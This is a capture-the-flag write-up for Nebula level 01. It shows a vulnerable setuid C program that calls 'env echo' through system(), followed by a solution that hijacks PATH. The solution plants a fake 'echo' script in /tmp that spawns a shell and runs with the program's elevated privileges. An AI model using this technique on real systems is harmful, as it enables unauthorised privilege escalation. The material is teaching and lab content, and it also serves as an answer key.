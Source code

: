 .. _nebula01:

.. role:: bash(code)
	  :language: bash
.. role:: c(code)
	  :language: c
		     
Nebula level 01
===============

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level01/

**Source Code**

.. code-block:: c
		#include <stdlib.h>
		#include <unistd.h>
		#include <string.h>
		#include <sys/types.h>
		#include <stdio.h>

		int main(int argc, char **argv, char **envp)
		{
		    gid_t gid;
		    uid_t uid;
		    gid = getegid();
		    uid = geteuid();

		    setresgid(gid, gid, gid);
		    setresuid(uid, uid, uid);

		    system("/usr/bin/env echo and now what?");
		}

Solution
--------

Export :bash:`PATH` first

:bash:`$ export PATH=/tmp:$PATH`

On :bash:`tmp` create a bash script with this and name it echo (without extension):

.. code-block:: bash
		#!/bin/bash
		bash

:bash:`$ chmod 777 echo`

and last execute

:bash:`getflag` 

